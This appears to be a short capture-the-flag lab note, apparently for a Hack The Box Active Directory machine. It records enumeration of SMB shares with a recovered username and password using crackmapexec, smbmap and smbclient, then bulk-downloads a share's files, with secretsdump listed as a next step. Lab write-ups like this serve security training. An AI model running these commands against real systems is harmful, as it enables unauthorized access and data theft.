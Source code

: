 
We have some things we can do with a user and password and we don't know what privileges does it have.

- [ ] smb
- [ ] secretsdump
- [ ] crackmapexec
- [ ] ldapdump


```
crackmapexec smb 10.10.10.175 -u fsmith -p 'Thestrokes23' --shares
```
![[Pasted image 20240501055403.png]]

To get more better understanding
```
smbmap -u fsmith -d EGOTISTICALBANK.local -p 'Thestrokes23' -H 10.10.10.175
```
![[Pasted image 20240501062507.png]]



```
smbclient //10.10.10.175/print$ -U 'fsmith' --password 'Thestrokes23'
```
![[Pasted image 20240501055725.png]]

It seems interesting so let's enumerate
![[Pasted image 20240501055840.png]]


![[Pasted image 20240501060920.png]]


```
prompt off
recurse on
ls
mget *
```
